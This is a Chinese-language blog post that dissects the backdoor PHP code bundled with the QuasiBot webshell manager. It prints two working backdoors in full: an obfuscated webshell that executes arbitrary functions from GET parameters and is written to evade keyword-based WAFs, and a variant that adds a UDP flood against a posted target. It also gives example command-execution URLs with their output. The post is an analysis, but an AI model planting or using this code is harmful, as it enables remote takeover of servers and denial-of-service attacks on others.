 ```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```



### 一、前言
最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台-``QuasiBot``。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析：``非DDoS``版 和 ``DDoS``版。

### 二、分析

#### 1. 非DDoS版

首先给出 ``非DDoS`` 版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个 ``if...elseif...`` 构成。

可以看到 ``elseif($_GET['___'])`` 直接运行从Get请求过来的参数 ``___`` 的函数。例如这里后门地址为：``http://www.virtual.com/ma.php``，那么构造如下请求就会让后门代码去执行 ``phpinfo()`` 函数来获取系统的相关信息。

	http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 ``if($_GET['_'])`` 部分，当有参数 ``__`` 传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 ``response`` 的注释 ``<!-- ... -->`` 里去了，这里有一定的隐藏效果。注意这里 ``print "<!--".$_="{:|";`` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 ``"GET"`` 字符串：

	$_=($_^"<").($_^">").($_^"/");

``$_^"<"`` 会将 $_ 变量的第一个字符的ascii码与'<'的ascii码 进行异或，也就是 ``123``('{'的ascii码) 与 ``60``('<'的ascii码)进行异或：

	123^60 ==> 71 ('G')

得到ascii码 ``71`` 也就是字符 ``"G"``，通过相同方法构造出 ``"E"`` 和 ``"T"``，然后将其连接构成字符串 ``"GET"``。

然后根据php中的一个变量引用特性，以 ``${'_GET'}["__"]`` 作为参数调用函数 ``${'_GET'}["_"]()``。

这里的函数执行涉及到了php中 ``动态函数调用`` 和 ``花括号{}使用`` 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 ``{}`` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 ``动态函数调用``，看下面这段代码 ``demo.php``：

{% highlight php %}
<?php
$func = "demo";
function demo() {
	echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行 ``php demo.php`` 得到输出 ``Demo on!``。

看了这个demo.php再结合 ``{}`` 的使用就很容易理解后门中的这段代码： ``${'_GET'}["__"](${'_GET'}["_"]())`` 。

写得明显点就是：``$_GET["_"]($_GET["__"])``。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--{:|";
	$_GET["_"]($_GET["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行 ``system('dir')``，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

	<!--{:| 驱动器 D 中的卷没有标签。
	 卷的序列号是 2EE6-3EE0

	 D:\PhpStudy\WWW 的目录

	2014/12/03  21:05    <DIR>          .
	2014/12/03  21:05    <DIR>          ..
	2014/12/03  21:05    <DIR>          discuz
	2014/11/10  22:43    <DIR>          Documentation
	2014/11/22  02:13               431 function.php
	2014/12/04  17:37               226 ma.php
	2014/11/19  22:38    <DIR>          mybb
	2014/11/20  12:53    <DIR>          mybb1
	2014/10/21  17:11    <DIR>          phpMyAdmin
	2014/11/25  23:52    <DIR>          phpMyRecipes
	2014/11/25  14:59    <DIR>          phpok
	2014/11/15  11:36    <DIR>          piwigo
	2014/11/14  14:04    <DIR>          qibomenhu
	2014/11/26  08:55    <DIR>          quasibot
	2014/11/27  11:50    <DIR>          rocboss
	2014/11/21  00:25    <DIR>          sqli
	2014/11/14  15:59    <DIR>          thinksns
	2014/11/10  22:43    <DIR>          Tools
	2014/11/10  22:44    <DIR>          upload
	2014/12/03  19:36               256 upload.php
	2014/11/22  12:54    <DIR>          wordpress
	               3 个文件            913 字节
	              18 个目录 35,217,747,968 可用字节
	{:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
	@$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
	$fn0=0;
	$pm1=$_POST['time'];
	$yu2=time();
	$az3=$yu2+$pm1;
	$jd4=$_POST['target'];
	$kb5=gethostbyname($jd4);
	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}
	while(1) {
		$fn0++;
		if(time()>$az3) {
			break;
		}
		$yw8=rand(1,65553);
		$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
		if($vl9) {
			fwrite($vl9,$yf7);
			fclose($vl9);
		}
	}
} elseif($_POST['kill']=='1') {
	exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照``非DDoS版``的分析。直接看DDoS代码部分，这里通过 ``$_POST['target']`` 来获取目标，``$_POST['time']`` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 ``65553`` 字节的超长数据通过 ``udp`` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 ``65553`` 字节的数据：

	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}

随机生成端口号（最大不应该是65535？）：

	$yw8=rand(1,65553);

创建socket并发送数据：

	$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
	if($vl9) {
		fwrite($vl9,$yf7);
		fclose($vl9);
	}

至此 ``QuasiBot`` 两种模式的后面简单剖析完毕。值得学习的是php特性的运用，整个后面代码（``非DDoS版``）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。

其中DDoS部分，没太明白为何是随机端口发送，持续跟进下。
